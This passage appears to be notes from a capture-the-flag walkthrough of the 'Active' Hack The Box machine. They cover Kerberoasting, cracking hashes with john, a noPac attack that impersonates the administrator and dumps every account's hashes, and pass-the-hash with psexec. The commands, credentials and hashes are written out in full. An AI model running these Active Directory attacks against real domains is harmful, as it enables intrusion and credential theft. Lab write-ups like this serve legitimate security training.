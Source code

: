 			- AppData
			- Application Data - D
			- Cookies - D
			- Desktop - N
			- Documents - N
			- Downloads - N
			- Favorites - N
- SYSVOL

- Kerberoasting
```bash
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile kerberoast.hashes
```
- This gets me a hash for Administrator. 
- Attempt to crack
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.hashes

Ticketmaster1968 (?)
```
- You can now use psexec to remote in
```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```


- Unintended Method
- I try noPac after hitting a wall
```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -d active.htb -M nopac
```
- This reports that the DC is vulnerable
- Reverse Shell
```bash
sudo python3 noPac.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -shell --impersonate administrator -use-ldap
```
- Dumping hashes
```bash
sudo python3 noPac.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 --impersonate administrator -use-ldap -dump -use-vss
```
- Successfully dump the hashes of all accounts
- Here I could re-enumerate everything using the Administrators hash. 
- I can also remote in using psexec
```bash
impacket-psexec -hashes "aad3b435b51404eeaad3b435b51404ee:5ffb4aaaf9b63dc519eca04aec0e8bed" Administrator@10.10.10.100
```

## Exploitation
After grabbing the `Groups.xml` file from the Replication share you can decrypt it for the password to SVC_TGS.
